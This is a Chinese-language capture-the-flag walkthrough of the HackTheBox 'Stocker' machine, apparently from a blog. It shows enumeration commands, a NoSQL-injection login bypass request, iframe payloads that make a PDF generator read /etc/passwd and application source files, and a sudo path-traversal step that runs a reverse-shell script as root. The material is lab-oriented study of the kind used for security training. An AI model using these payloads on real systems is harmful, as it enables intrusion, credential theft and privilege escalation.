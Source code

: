 ﻿![在这里插入图片描述](https://img-blog.csdnimg.cn/69b248eb1f8a4bfe931e003074c21ddc.png)

靶机地址：
```
https://app.hackthebox.com/machines/Stocker
```
# 枚举
使用nmap枚举靶机
```
nmap -sC -sV 10.10.11.196
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/5da0be53c59843c3bba1370607815124.png)


机子开放了22，80端口，我们本地解析一下这个域名
```
echo "10.10.11.196 stocker.htb" >> /etc/hosts 
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/1ef746443ea0432c840ee985365a4395.png)

去浏览器访问这个网站

![在这里插入图片描述](https://img-blog.csdnimg.cn/237ce485746c42edb7ad1f3b68b64f91.png)


发现只是一个单一的网页，并没有其他的功能，插件也很少

现在扫一下目录和子域名，但是目录并没有扫到什么有用的东西

![在这里插入图片描述](https://img-blog.csdnimg.cn/078fd4218a284d528939d9e5ed5a4be2.png)

但是扫描到一个子域名
```
./gobuster vhost -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -u stocker.htb
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/300d3e1d0d5c473d8b51076c384428db.png)

本地dns解析后去访问这个子域名
```
echo "10.10.11.196 dev.stocker.htb" >> /etc/hosts
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/91ea919cbb774d5daaa798e3cbb543f4.png)
# CVE-2020-24815获取用户shell

这是一个登录页面

![在这里插入图片描述](https://img-blog.csdnimg.cn/50112d7754c04e929b2b2f41c5473380.png)

多半是用nodejs写的

![在这里插入图片描述](https://img-blog.csdnimg.cn/b4542e4f964e401792b7873eaa46ac86.png)


然后我扫描了一下目录，没有什么可以利用的东西

![在这里插入图片描述](https://img-blog.csdnimg.cn/09cb7158b61a48c2bb5d530d0deda385.png)


看了就是要想办法去突破这个登录页面了，网站是nodejs写的，然后我去Google上搜索了一下关于nodejssql注入的内容，然后发现了这篇文章
```
https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/88c70a15b71b4aa69b157f024a8e7873.png)

我们可以尝试绕过这个登录页面，启动burp，然后抓登录包

![在这里插入图片描述](https://img-blog.csdnimg.cn/b59726c9208747ac83eee9ee2eaf7ad8.png)

需要把Content-Type标头改为json数据，然后在下面输入payload
```
POST /login HTTP/1.1

Host: dev.stocker.htb

Content-Length: 19

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://dev.stocker.htb

Content-Type: application/json

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://dev.stocker.htb/login

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: connect.sid=s%3A0B2QllbQJO8s_zE5apJUSgndnyzmdVi3.USjl%2BHhDYbne%2BUwk2861GQIHQ84D5cK%2FIgJhJl%2Bo5sY

Connection: close



{"username": {"$ne": null}, "password": {"$ne": null} }
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a282ee2979ea4b018646bb14a3d7683c.png)

成功登录，我们这是一个购物网站，现在买一个东西看看有没有突破点

![在这里插入图片描述](https://img-blog.csdnimg.cn/03d3651b7e854e90a8c0ddb570ea3bed.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/1e96cf3e658e4adcbd7e218b8e6a0a39.png)



![在这里插入图片描述](https://img-blog.csdnimg.cn/d1b2f6466a9a4046bd8d3e89ff2757f8.png)

提交订单后它会生成一个pdf文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/d9a765a10e834692a6bcdebaabe4468f.png)


到这里我测试了很多东西，这个购物网站的功能很少，页面也很少，sql，rce，什么的都测试了一下，还是不行，我会看burp的http历史的时候发现了一个api请求

![在这里插入图片描述](https://img-blog.csdnimg.cn/bbb641f60835443f8fbcd6bc2152ea98.png)


这是我们提交商品的时候请求的信息，之后就会生成一个pdf文件，我尝试修改了一下title标签，发现生成的pdf文件对应的地方也会变

![在这里插入图片描述](https://img-blog.csdnimg.cn/c4e7caa2e4614fc6a849a84fbbb31a73.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/e3fca616563343b8917c382c3ba860c7.png)


这里我想到了很多种漏洞的利用，我把pdf下载下来然后用exiftools工具分析后发现了突破点

![在这里插入图片描述](https://img-blog.csdnimg.cn/11790cbd71ce43cab95ced86d8d0024b.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/b63a917ebaa841218681499fe09365a7.png)

```
https://techkranti.com/ssrf-aws-metadata-leakage/
https://www.triskelelabs.com/blog/extracting-your-aws-access-keys-through-a-pdf-file
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/c97faadddeeb4f9a92b8ac157651c3f8.png)

它存在ssrf漏洞，可以通过一些特定的方式来读取本地上的文件

现在我们尝试读取一下靶机上的/etc/passwd文件
```
<iframe src=file:///etc/passwd height=1050px width=800px</iframe>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/e0685b6e27c344438ec61e7e58b7d815.png)


![在这里插入图片描述](https://img-blog.csdnimg.cn/d63fdb99a77c4729aa9b86378131506e.png)


成功利用了，现在我们读取一下nginx的默认配置
```
<iframe src=file:///etc/nginx/nginx.conf height=1050px width=800px</iframe>
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/0631bbab9f5b47178a9d8d70d20492c5.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/22d279898cc1461d9d5a3a1a171f3e48.png)

这个网站的源代码在/var/www/dev目录下，我们读取一些配置文件看看能不能找到什么有用的东西

```
<iframe src=file:////var/www/dev/index.js height=1050px width=800px</iframe>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/3306b60a232c40e5a88ddf88570ce4df.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/ece1e01a7b5b4f27a5c6ebe0f3285441.png)

通过前面读取/etc/passwd，发现这个机子上有两个普通用户，一个是mongodb，一个是angoose，我们读取了配置文件，发现了一个疑似密码的字符串

但是mongodb用户无法用这个密码登录上，angoose可以

![在这里插入图片描述](https://img-blog.csdnimg.cn/2fa51fcc2b5c4159973642fbc0aa9539.png)


# 目录遍历提权
在日常查看用户能用sudo命令运行什么工具时，发现了突破点

![在这里插入图片描述](https://img-blog.csdnimg.cn/43f98b8a7dc94cf393065616712c4201.png)

我们可以用sudo命令运行node工具，执行在/usr/loacl/scripts目录下的文件，但是我们可以用目录遍历来绕过这个限制

我们在这个网站上生成一个nodejs的rev shellcode
```
https://www.revshells.com/
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f4a7546505494c81985072c8a0f9a97c.png)

然后在当前目录下创建一个.js文件，将这些代码粘贴进去即可
```
touch baimao.js
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/827e0d50ee934dbdba3ec340bc000c30.png)

nc监听端口

![在这里插入图片描述](https://img-blog.csdnimg.cn/318f3fe7fb9e464fa3c1fe98466c39d8.png)

回到靶机执行命令
```
sudo node /usr/local/scripts/../../../home/angoose/baimao.js
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/5e1a67e2d3f8407b9fd95d2b5ca9f5bc.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/806c05540edb47568a88b52f4affe817.png)

